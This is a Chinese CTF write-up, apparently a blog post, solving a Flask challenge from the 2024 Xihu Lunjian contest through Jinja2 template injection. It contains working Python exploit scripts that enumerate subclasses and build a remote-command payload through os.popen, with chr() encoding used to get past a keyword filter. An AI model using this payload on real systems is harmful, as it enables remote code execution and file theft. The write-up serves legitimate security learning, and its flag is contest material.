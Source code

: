 ```yaml
---
title: 2024年西湖论剑 WEB 赛道 Flask 题目 Writeup
published: 2025-03-13
description: ''
image: ''
tags: ['WEB','CTF','Python']
category: 'CTF Writeup'
draft: false 
lang: ''
---
```


## 题目分析

通过初步分析，发现目标页面是基于 Flask 框架开发的，页面中存在潜在的模板注入漏洞（Jinja2 SSTI）。

![页面截图](https://gu-blog-img.gmoe.cc/20250314003845267.png)

通过抓包工具，获取到两个关键的请求地址：
- 登录请求：`http://139.155.126.78:18534/login`
- 密码验证：`http://139.155.126.78:18534/cpass`

在登录页面中随意输入用户名后，响应内容中出现了类似 `123313` 的字符串，结合页面特征，推测存在 Jinja2 模板注入漏洞，形如 `{{xxx}}`。

![响应截图](https://gu-blog-img.gmoe.cc/20250314003954896.png)

## 解题思路

### 1. 确定漏洞点

通过构造特定的 SSTI Payload，尝试触发异常或获取敏感信息。初步目标是通过 `{{}}` 枚举 Python 内置类的子类，寻找可利用的对象。

### 2. 枚举子类

编写脚本，枚举 `().__class__.__bases__[0].__subclasses__()` 中的子类，寻找可以执行系统命令的类（如 `os` 或 `subprocess`）。

```python
import requests
import time
import html

url = "http://139.155.126.78:26914/login"
url_2 = "http://139.155.126.78:26914/cpass"

payload_2 = {"password": "admin"}

for i in range(0, 300):
    time.sleep(0.06)
    payload = {
        "phone_number": "{{().__class__.__bases__[0].__subclasses__()[" + str(i) + "]}}",
    }
    response = requests.post(url, data=payload)
    response_2 = requests.post(url_2, data=payload_2)
    decoded_html = html.unescape(response_2.text)
    print(decoded_html)
    if "_frozen_importlib.BuiltinImporter" in response_2.text:
        print(response_2.text)
        print(i)
        break
```

运行脚本后，发现第 `133` 个子类 `_frozen_importlib.BuiltinImporter` 可用，说明可以通过该类进一步构造 Payload 执行命令。

### 3. 构造命令执行 Payload

在后续分析中，发现目标系统对输入进行了关键字过滤，直接使用命令字符串（如 `ls /`）会被拦截。因此，需要通过 ASCII 编码绕过过滤机制。

首先，将目标命令（如 `head -c 40 /flagf149`）转换为 ASCII 码，然后使用 `chr()` 函数拼接字符串，构造最终 Payload。

```python
import requests
import html

url = "http://139.155.126.78:18534/login"
url_2 = "http://139.155.126.78:18534/cpass"

# 将命令转换为 ASCII 码绕过过滤
string = "head -c 40 /flagf149"
ascii_values = [ord(char) for char in string]
chr_values = "".join([f"chr({char})+" for char in ascii_values])[:-1]

payload = {
    "phone_number": "{{[].__class__.__base__.__subclasses__()[133].__init__.__globals__['__builtins__'].eval(\"__import__('os').popen(" + chr_values + ").read()\")}}"
}

payload_2 = {"password": "admin"}

response = requests.post(url, data=payload)
response_2 = requests.post(url_2, data=payload_2)
decoded_html = html.unescape(response_2.text)
print(decoded_html)

# 保存响应内容为 HTML 文件，便于调试
with open('tste.html', 'w') as f:
    f.write(decoded_html)
```

### 4. 运行结果

运行脚本后，成功获取到目标文件 `/flagf149` 的内容。

![运行截图1](https://gu-blog-img.gmoe.cc/20250314004401304.png)
![运行截图2](https://gu-blog-img.gmoe.cc/20250314004432252.png)

## 最终 Flag

```
DASCTF{54872121243038318161691629509234}
```
